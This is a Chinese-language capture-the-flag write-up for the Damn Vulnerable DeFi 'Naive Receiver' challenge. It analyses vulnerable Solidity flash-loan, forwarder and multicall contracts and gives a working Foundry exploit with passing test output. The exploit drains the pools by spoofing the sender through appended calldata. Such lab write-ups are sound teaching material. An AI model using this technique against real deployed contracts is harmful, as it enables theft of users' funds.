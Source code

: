 ## 题目 [Naive Receiver](https://github.com/theredguild/damn-vulnerable-defi/tree/v4.0.0/src/naive-receiver)
![](/img/DamnVulnerableDeFiV4/2.1.png)
**天真接收者**  
有一个池子里有 1000 WETH 余额，提供闪电贷。该池子收取固定费用为 1 WETH。这个池子通过与一个无权限的转发合约集成，支持元交易。  

一个用户部署了一个样本合约，余额为 10 WETH。看起来这个合约可以执行 WETH 的闪电贷。  

所有资金都有风险！需要将用户和池子里的所有 WETH 拯救出来，并存入指定的恢复账户。  

**解释：** 题目要求需要清空资金池和接收者合约中的所有 WETH 到恢复账户。并且从测试文件可以看出，需要两次或更少的交易中完成挑战。

## 前置知识
### [ERC-2771](https://eips.ethereum.org/EIPS/eip-2771)
ERC-2771 是元交易的标准。用户可以将交易的执行委托给第三方 Forwarder，通常称为中继器或转发器。  
通常合约中直接调用者的地址是使用 msg.sender 获取的，但在使用了 ERC-2771 的情况下，如果 msg.sender 是转发器角色的话，那么会截断传入的 calldata 并获取最后 20 个字节来作为交易的直接调用者地址。  

### Multicall
Multicall 是一个智能合约库，其作用是允许批量执行多个函数调用，从而减少交易成本。这个库通常用于优化 DApp 的性能和用户体验，特别是当需要进行多个读取操作时。  


## 合约分析
主要的三个合约是：  
`NaiveReceiverPool`: 提供闪电贷的池子，有 1000 个 WETH 可提供，同时支持 Forwarder 和 Multi call，还具有存款和取款功能。  
`FlashLoanReceiver`: 闪电贷接收者，初始余额 10 个 WETH。  
`BasicForwarder`: 中继器合约，用来执行交易。  

**任务1：清空`FlashLoanReceiver`合约的资产。**  
在 `FlashLoanReceiver` 合约的 `onFlashLoan` 函数中，并没有对发起闪电贷的地址做检查，所以任何地址都可以发起以该合约为名义的闪电贷，那么通过将接收者合约作为目标发起闪电贷，由于手续费为 1 WETH，那么调用 10 次，即可以耗尽。并且可以使用 Multi call 在一笔交易中完成。
``` solidity
    function onFlashLoan(address, address token, uint256 amount, uint256 fee, bytes calldata)
        external
        returns (bytes32)
    {
        assembly {
            // gas savings
            if iszero(eq(sload(pool.slot), caller())) {
                mstore(0x00, 0x48f5c3ed)
                revert(0x1c, 0x04)
            }
        }

        if (token != address(NaiveReceiverPool(pool).weth())) revert NaiveReceiverPool.UnsupportedCurrency();

        uint256 amountToBeRepaid;
        unchecked {
            amountToBeRepaid = amount + fee;
        }

        _executeActionDuringFlashLoan();

        // Return funds to pool
        WETH(payable(token)).approve(pool, amountToBeRepaid);

        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }
```

**任务2：清空 `NaiveReceiverPool` 合约资产。**  
在`NaiveReceiverPool`合约中取资产的方式有 `withdraw`，并且存款和取款使用了一个自定义的 `_msgSender()` 函数，在这个函数中是取中继器发来的 `msg.data` 的最后 20 个字节作为 `msgSender` 。此时我想的是可能从这里入手，在 `msg.data` 最后增加一个地址。但是这个地址需要在 `deposits` 变量中有资产，不然扣除不了 `amount` 。
``` solidity
    function withdraw(uint256 amount, address payable receiver) external {
        // Reduce deposits
        deposits[_msgSender()] -= amount;
        totalDeposits -= amount;

        // Transfer ETH to designated receiver
        weth.transfer(receiver, amount);
    }

    function deposit() external payable {
        _deposit(msg.value);
    }

    function _deposit(uint256 amount) private {
        weth.deposit{value: amount}();

        deposits[_msgSender()] += amount;
        totalDeposits += amount;
    }

    function _msgSender() internal view override returns (address) {
        if (msg.sender == trustedForwarder && msg.data.length >= 20) {
            return address(bytes20(msg.data[msg.data.length - 20:]));
        } else {
            return super._msgSender();
        }
    }
```
之后仔细看 `flashLoan` 函数，发现手续费接收地址 `feeReceiver` 是会增加 `deposits` 的。  
``` solidity
    function flashLoan(IERC3156FlashBorrower receiver, address token, uint256 amount, bytes calldata data)
        external
        returns (bool)
    {
        if (token != address(weth)) revert UnsupportedCurrency();

        // Transfer WETH and handle control to receiver
        weth.transfer(address(receiver), amount);
        totalDeposits -= amount;

        if (receiver.onFlashLoan(msg.sender, address(weth), amount, FIXED_FEE, data) != CALLBACK_SUCCESS) {
            revert CallbackFailed();
        }

        uint256 amountWithFee = amount + FIXED_FEE;
        weth.transferFrom(address(receiver), address(this), amountWithFee);
        totalDeposits += amountWithFee;

        deposits[feeReceiver] += FIXED_FEE;

        return true;
    }
```
但是 `feeReceiver` 不就收到 10 个 WETH 吗，怎么把 1010 WETH 全拿走呢？  
后来根据测试文件和构造函数，可以看出 `deployer` 和 `feeReceiver` 是同一个地址，并且部署合约时，`deployer` 的 `deposits` 变量是有增加的。
``` solidity
    constructor(address _trustedForwarder, address payable _weth, address _feeReceiver) payable {
        weth = WETH(_weth);
        trustedForwarder = _trustedForwarder;
        feeReceiver = _feeReceiver;
        _deposit(msg.value);
    }
```

``` solidity
pool = new NaiveReceiverPool{value: WETH_IN_POOL}(address(forwarder), payable(weth), deployer);
```

## 题解
基于上述分析，我们可以得出攻击方法：  
1. 调用中继器 `forwarder` 合约执行后面的交易。
2. 中继器调用 `multicall` 函数，并且在 `call data` 中填入调用 10 次闪电贷，和调用一次 `withdraw`。
3. 并且在 `call data` 最后拼上 `feeReceiver` 地址。

调用 `forwarder` 之前还需要拼好签名。测试代码如下：  
``` solidity
    function test_naiveReceiver() public checkSolvedByPlayer {
        bytes[] memory callDatas = new bytes[](11);
        for(uint i = 0; i < 10; i++){
            callDatas[i] = abi.encodeCall(NaiveReceiverPool.flashLoan, (receiver, address(weth), 0, "0x"));
        }
        callDatas[10] = abi.encodePacked(abi.encodeCall(NaiveReceiverPool.withdraw, (WETH_IN_POOL + WETH_IN_RECEIVER, payable(recovery))),
            bytes32(uint256(uint160(pool.feeReceiver())))
        );
        bytes memory callData;
        callData = abi.encodeCall(pool.multicall, callDatas);
        BasicForwarder.Request memory request = BasicForwarder.Request(
            player,
            address(pool),
            0,
            30000000,
            forwarder.nonces(player),
            callData,
            block.timestamp
        );
        bytes32 requestHash = keccak256(
            abi.encodePacked(
                "\x19\x01",
                forwarder.domainSeparator(),
                forwarder.getDataHash(request)
            )
        );
        (uint8 v, bytes32 r, bytes32 s)= vm.sign(playerPk ,requestHash);
        bytes memory signature = abi.encodePacked(r, s, v);
        require(forwarder.execute(request, signature));
    }
```
**运行测试：**  
```
forge test --mp test/naive-receiver/NaiveReceiver.t.sol -vv
```

**测试通过：**  
```
Ran 2 tests for test/naive-receiver/NaiveReceiver.t.sol:NaiveReceiverChallenge
[PASS] test_assertInitialState() (gas: 34878)
[PASS] test_naiveReceiver() (gas: 416956)
Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 15.46ms (7.34ms CPU time)
```

